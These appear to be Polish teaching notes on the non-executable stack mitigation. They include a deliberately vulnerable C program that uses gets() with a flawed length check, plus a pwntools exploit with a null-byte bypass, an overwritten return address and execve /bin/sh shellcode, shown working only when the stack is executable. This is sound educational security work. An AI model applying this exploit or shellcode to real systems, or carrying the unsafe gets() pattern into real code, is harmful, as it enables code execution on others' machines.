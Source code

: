 # 1.Executable stack

### 1.1

`gcc` defaultowo włącza non-executable stack - można go wyłączyć flaga `-z execstack`.
Tak samo zachowuje się `clang`. Jest to argument przekazywany do linkera. Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stacku dlatego ta opcja jest włączona. Wykonywalny stack jest pokonywany za pomocą oznaczenia pamięci stacku jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.


### 1.2 Proof of concept
Pierwszym omówionym exploitem i obroną przed nim bedzie wykonywalny stack.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić, aby przepełnić bufor.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. Następnie za pomocą gdb ustaliłem, w którym miejscu można nadpisać adres powrotu oraz adres, w którym zaczyna się bufor (Adres został wyjęty z gdb).

```python
name += "\x20\xd2\xff\xff"
```

W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve i odpowiednimi parametrami. Shellcode ten zaczerpnałem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Exploit działa na programie skompilowanym z wykonywalnym stackiem.

![img.png](img.png)

Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stacku nie działa.

![img_1.png](img_1.png)
